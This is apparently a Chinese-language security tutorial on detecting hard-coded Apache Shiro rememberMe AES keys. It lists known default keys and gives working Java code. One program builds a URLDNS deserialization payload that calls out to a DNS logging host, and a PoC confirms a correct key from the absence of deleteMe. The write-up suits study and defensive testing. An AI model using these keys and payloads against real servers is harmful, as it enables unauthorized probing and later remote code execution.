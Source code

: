 # Shiro之key的检测

## 前言

在说 key 的检测之前，先聊聊现在工具普遍用到的 key 吧。相信在了解 shiro 之前，大家都曾用过网上公开的 shiro 利用工具，其中对于 key 的检测，普遍采用的字典的形式进行爆破，这里列举几个在字典中存在的 key：
```
kPH+bIxk5D2deZiIxcaaaA==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
4AvVhmFLUs0KTA3Kprsdag==
5aaC5qKm5oqA5pyvAAAAAA==
6ZmI6I2j5Y+R5aSn5ZOlAA==
......
```

第一个大家应该都眼熟了，是 1.2.4 版本的默认 CipherKey，那其他 CipherKey 是哪里来的呢？网上有几种观点：

- 一个框架配置了某一个 Shiro CipherKey，大家写的项目都用到了该框架；
- 大家的项目互相抄来抄去，对于 CipherKey 并未修改；
- 见到其他项目使用该 CipherKey，也沿袭着使用了；
- ......

我们尝试在 github 上搜索其中一个 CipherKey 试试
![image-20221023221126506](images/image-20221023221126506.png)

发现大部分项目都是使用了同一个 CipherKey，缘，妙不可言~

言归正传，说回 Key 的检测，第一想法都是用 URLDNS 这条链子来进行检测。但实战环境中，很多时候遇上的主机都是不出网，这种情况如何解决呢？

L1NK3R 师傅提出的只依赖于 Shiro 本身，在 CipherKey 检测正确时不返回 deleteMe，错误情况时返回 deleteMe 的方法，解决了上述不出网的情况。下面就逐个进行学习一下。

## 基于URLDNS的检测方法

通过前面的学习，听到该方法名字应该都已经懂如何构造了，先通过学习的 URLDNS 链生成文件
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://851bdcd2.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 666);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

}
```

再通过 Shiro 的`AesCipherService()`方法对前面生成的文件进行 AES 加密得到 payload
```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        String path = "1.txt";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(path), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;

    }
}
```

添加到 rememberMe 字段发送 payload
![image-20221024055133461](images/image-20221024055133461.png)

最后执行反序列化流程，执行 URLDNS 链，发起 DNS 请求，打开平台看到已经收到了请求数据。
![image-20221024055148343](images/image-20221024055148343.png)

## 基于Shiro本身的检测方法

经过测试我们可以看到，在登录后携带正常的 rememberMe 发送请求并不会在返回包中存在`rememberMe=deleteMe`，但使用正确或者错误的 CipherKey 加密构造的 rememberMe 在发送请求后，都会在返回包中看到`rememberMe=deleteMe`的响应头。

那么如果我们能够使正确的 CipherKey 加密的 payload 执行后不回显`deleteMe`，错误的 CipherKey 加密的则回显`deleteMe`，那就能达到检测 CipherKey 是否正确的目的。

接下来的任务就是看看 CipherKey 正确和错误的情况下，流程是怎么走的，进行对比和分析。

### 密钥错误

我们把断点打在最后的`AbstractRememberMeManager#deserialize()`方法处，然后用一个错误的 CipherKey 加密 URLDNS 的链子，发送请求
![image-20221024045034551](images/image-20221024045034551.png)

接在跟进`decrypt()`方法直到`crypt()`方法
![image-20221024045303583](images/image-20221024045303583.png)

在这里开始因为 CipherKey 错误抛出异常，在`getRememberedPrincipals()`方法中被捕获异常
![image-20221024045432663](images/image-20221024045432663.png)

这里调用到了`onRememberedPrincipalFailure()`方法，跟进该方法
![image-20221024045929862](images/image-20221024045929862.png)

接着调用了`forgetIdentity()`方法
![image-20221024050022401](images/image-20221024050022401.png)

继续跟进`forgetIdentity(request, response)`方法
![image-20221024050046499](images/image-20221024050046499.png)

调用到了`removeFrom()`方法，继续跟进`removeFrom()`方法
![image-20221024050136826](images/image-20221024050136826.png)

可以看到，在该方法中定义了`deleteMe`字段并添加到响应头中

### 密钥正确

因为 CipherKey 正确，所以这里进入了`doFinal()`方法，不会抛出异常
![image-20221024050454922](images/image-20221024050454922.png)

然后一层层返回，最后到了 `return this.deserialize()`方法
![image-20221024050745000](images/image-20221024050745000.png)

跟进`deserialize()`方法
![image-20221024050817471](images/image-20221024050817471.png)

这里可以看到最后套了一层`(PrincipalCollection)`将返回的类转换成`PrincipalCollection`类，但转换失败，被`getRememberedPrincipals()`捕获了异常
![image-20221024051026334](images/image-20221024051026334.png)

接下来就是跟前面一样进入到了`removeFrom()`方法
![image-20221024051128859](images/image-20221024051128859.png)

至此，弄懂了 CipherKey 无论正确与否，进行加密的链子都会返回`deleteMe`的原因。

### 编写POC

既然在 CipherKey 正确情况下，是因为类型强转导致的进入`removeFrom()`方法，那么我们只要将序列化的对象继承于`PrincipalCollection`类即可，那就找一下`PrincipalCollection`类的实现类![image-20221024051738473](images/image-20221024051738473.png)

这里选择`SimplePrincipalCollection`类或者`SimplePrincipalMap`类都可以

```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.subject.SimplePrincipalCollection;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(simplePrincipalCollection), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(Object obj) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        objectOutputStream.flush();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
}
```

密钥✅的情况：
![image-20221024055251820](images/image-20221024055251820.png)

密钥❎的情况：
![image-20221024055335648](images/image-20221024055335648.png)
